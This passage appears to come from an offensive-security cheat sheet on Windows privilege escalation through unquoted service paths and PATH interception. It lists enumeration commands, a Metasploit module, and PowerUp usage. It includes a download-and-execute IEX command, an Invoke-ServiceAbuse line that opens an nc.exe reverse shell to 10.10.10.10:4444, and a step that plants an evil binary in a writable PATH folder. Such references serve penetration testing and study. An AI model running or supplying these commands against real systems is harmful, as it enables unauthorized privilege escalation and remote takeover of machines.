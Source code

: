 ```powershell
# in CMD
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
# in PowerShell
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

* Metasploit exploit : `exploit/windows/local/trusted_service_path`
* PowerUp exploit

    ```powershell
    # find the vulnerable application
    C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

    ...
    [*] Checking for unquoted service paths...
    ServiceName   : BBSvc
    Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
    StartName     : LocalSystem
    AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
    ...

    # automatic exploit
    Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
    ```

### Example

For `C:\Program Files\something\legit.exe`, Windows will try the following paths first:

* `C:\Program.exe`
* `C:\Program Files.exe`

## EoP - $PATH Interception

Requirements:

* PATH contains a writable folder with low privileges.
* The writable folder is _before_ the folder that contains the legitimate binary.

EXAMPLE:

```powershell
# List contents of the PATH environment variable
# EXAMPLE OUTPUT: C:\Program Files\nodejs\;C:\WINDOWS\system32
$env:Path

# See permissions of the target folder
# EXAMPLE OUTPUT: BUILTIN\Users: GR,GW
icacls.exe "C:\Program Files\nodejs\"

# Place our evil-file in that folder.
copy evil-file.exe "C:\Program Files\nodejs\cmd.exe"
```
